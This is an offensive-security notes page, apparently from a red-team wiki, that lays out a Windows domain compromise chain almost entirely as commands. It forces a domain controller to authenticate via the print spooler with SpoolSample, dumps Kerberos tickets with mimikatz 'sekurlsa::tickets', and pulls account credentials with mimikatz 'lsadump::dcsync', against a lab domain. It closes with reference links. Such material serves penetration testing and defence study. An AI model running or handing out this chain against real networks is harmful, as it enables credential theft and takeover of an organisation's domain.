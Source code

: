 # Domain Compromise via DC Print Server and Kerberos Delegation

```text
.\SpoolSample.exe dc01 ws01
```

![](../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

```text
mimikatz # sekurlsa::tickets
```

![](../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

```text
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

## References

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}

{% embed url="https://github.com/leechristensen/SpoolSample" %}

